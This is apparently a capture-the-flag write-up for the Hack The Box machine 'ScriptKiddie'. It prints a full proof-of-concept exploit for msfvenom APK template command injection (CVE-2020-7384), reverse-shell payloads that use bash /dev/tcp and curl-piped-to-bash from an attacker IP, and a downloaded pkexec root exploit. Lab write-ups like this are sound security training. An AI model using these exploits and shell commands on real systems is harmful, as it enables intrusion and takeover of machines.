

# ScriptKiddie Write-up 


# ENUMERATION

Start with nmap:

```shell
nmap -sC -sV -Pn 10.129.95.150 -oX nmap.txt                                                     SIGINT   main 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 20:03 CET
Nmap scan report for 10.129.95.150
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```

whatweb:

```shell
whatweb http://10.129.95.150:5000 --log-brief=whatweb.log
http://10.129.95.150:5000 [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/0.16.1 Python/3.8.5], IP[10.129.95.150], Python[3.8.5], Title[k1d'5 h4ck3r t00l5], Werkzeug[0.16.1]

```

searchexploit with xml file generated with nmap:

```shell
searchsploit Werkzeug                                                                                          main 
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pallets Werkzeug 0.15.4 - Path Traversal                                                                                                    | python/webapps/50101.py
Werkzeug - 'Debug Shell' Command Execution                                                                                                  | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (Metasploit)                                                                                       | python/remote/37814.rb
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Open in browser:


Send type some "injection" char on search sploits input box and the following message appears "stop hacking me - well hack you back"


while a tcpdump session is running in our computer:

```shell
sudo tcpdump -vvv -i tun0 -w k1ds.pcap                                                                                               1   
[sudo] password for darthv: 
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
^C34 packets captured
34 packets received by filter
0 packets dropped by kernel

```

Lets take a look on pcap file:


It seems that it returns us a funny port scan, but for now nothing interesting on it. The nmap part does a simple nmap, nothing interesting.
The payload part seems to be interesting as it seems to generate a payload with fsvenom command on server side, with the option to pass a template. Let's search msfvenom exploits:

```shell
searchsploit msfvenom
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                       | multiple/local/49491.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

Let's take a look on this python script:

```python
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o /dev/null")
```
Change payload part:

```python
# Change me
#payload = 'echo "Code execution as $(id)" > /tmp/win'
payload = 'bash \-i \>\& \/dev\/tcp\/10\.10\.14\.4\/4444 0\>\&1'
```
Let's run python script in order to generate apk template:

```shell
python 49491.py                                                                                            main 
[+] Manufacturing evil apkfile
Payload: echo "Code execution as $(id)" > /tmp/win
-dname: CN='|echo ZWNobyAiQ29kZSBleGVjdXRpb24gYXMgJChpZCkiID4gL3RtcC93aW4= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp5fpkc0ot/evil.apk
Do: msfvenom -x /tmp/tmp5fpkc0ot/evil.apk -p android/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o /dev/null
Files  cp -p /tmp/tmp5fpkc0ot/evil.apk . 
```

Open netcat session on our Computer:

```shell
nc -lnvp 4444
```

upload evil.apk template:


# FOOTHOLD

After some tryings, seems this is not working, only get "Something went wrong" messsage from website. 
Let's change reverseshell papyload. Create localfile script revshell.sh:

```shell
cat revshell.sh                                                                                                                      main 
/usr/bin/bash -i >& /dev/tcp/10.10.14.4/7777 0>&1
```

Change payload variable on python script:

```python
payload = 'curl http://10.10.14.4/revshell.sh | bash'
```

Generate apk with new payload:

```shell
python 49491.py                                                                                                                      main 
[+] Manufacturing evil apkfile
Payload: curl http://10.10.14.4/revshell.sh | bash
-dname: CN='|echo Y3VybCBodHRwOi8vMTAuMTAuMTQuNC9yZXZzaGVsbC5zaCB8IGJhc2g= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpuijw520a/evil.apk
Do: msfvenom -x /tmp/tmpuijw520a/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 PORT=7777 -o /dev/null
```


Start python http server and netcat on port 7777:

```shell
sudo python -m http.server 80
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.11.122 - - [06/Nov/2022 19:44:37] "GET /revshell.sh HTTP/1.1" 200 -
```

file revshell.sh has curled by server, lets check nc session:

```shell
nc -lnvp 7777                                                                                                               main 
Connection from 10.129.11.122:41170
bash: cannot set terminal process group (940): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~/html$ 
```

Works!

Get the user flag:

```shell
kid@scriptkiddie:~$ cat user.txt
cat user.txt
09028e17d66ea64b9c4dfe58096962f1
kid@scriptkiddie:~$ 
```

# PRIVESC 

Get lineas script:
```shell
kid@scriptkiddie:~$ wget http://10.10.14.4/linpeas.sh
wget http://10.10.14.4/linpeas.sh
--2022-11-06 18:59:57--  http://10.10.14.4/linpeas.sh
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827827 (808K) [application/x-sh]
Saving to: ‘linpeas.sh’

     0K .......... .......... .......... .......... ..........  6%  708K 1s
    50K .......... .......... .......... .......... .......... 12% 1.44M 1s
   100K .......... .......... .......... .......... .......... 18% 21.7M 0s
   150K .......... .......... .......... .......... .......... 24% 1.59M 0s
   200K .......... .......... .......... .......... .......... 30% 22.0M 0s
   250K .......... .......... .......... .......... .......... 37% 39.4M 0s
   300K .......... .......... .......... .......... .......... 43% 22.0M 0s
   350K .......... .......... .......... .......... .......... 49% 1.85M 0s
   400K .......... .......... .......... .......... .......... 55% 11.9M 0s
   450K .......... .......... .......... .......... .......... 61% 40.2M 0s
   500K .......... .......... .......... .......... .......... 68% 14.2M 0s
   550K .......... .......... .......... .......... .......... 74% 45.1M 0s
   600K .......... .......... .......... .......... .......... 80% 37.3M 0s
   650K .......... .......... .......... .......... .......... 86% 35.7M 0s
   700K .......... .......... .......... .......... .......... 92% 27.7M 0s
   750K .......... .......... .......... .......... .......... 98% 34.7M 0s
   800K ........                                              100%  129M=0.2s

2022-11-06 18:59:58 (4.26 MB/s) - ‘linpeas.sh’ saved [827827/827827]

kid@scriptkiddie:~$ 
```

Execute linpeas.sh on server and found some vulneribilities:

```shell
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

```

```shell
kid@scriptkiddie:~$ wget http://10.10.14.4/pkexec-exploit                                 
wget http://10.10.14.4/pkexec-exploit
--2022-11-06 19:13:03--  http://10.10.14.4/pkexec-exploit
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 175360 (171K) [application/octet-stream]
Saving to: ‘pkexec-exploit’

     0K .......... .......... .......... .......... .......... 29%  699K 0s
    50K .......... .......... .......... .......... .......... 58% 1.37M 0s
   100K .......... .......... .......... .......... .......... 87% 9.17M 0s
   150K .......... .......... .                               100% 23.7M=0.1s

2022-11-06 19:13:03 (1.47 MB/s) - ‘pkexec-exploit’ saved [175360/175360]

kid@scriptkiddie:~$ 

```

execute pkexec python exploit:

```shell
kid@scriptkiddie:~$ python3 pkexec-exploit                        
python3 pkexec-exploit
Do you want to choose a custom payload? y/n (n use default payload)  


id
uid=0(root) gid=1000(kid) groups=1000(kid)
cd /root
ls
root.txt
snap
cat root.txt
3b219ae4a2ecfe4b7550cb8438ef45ac

```
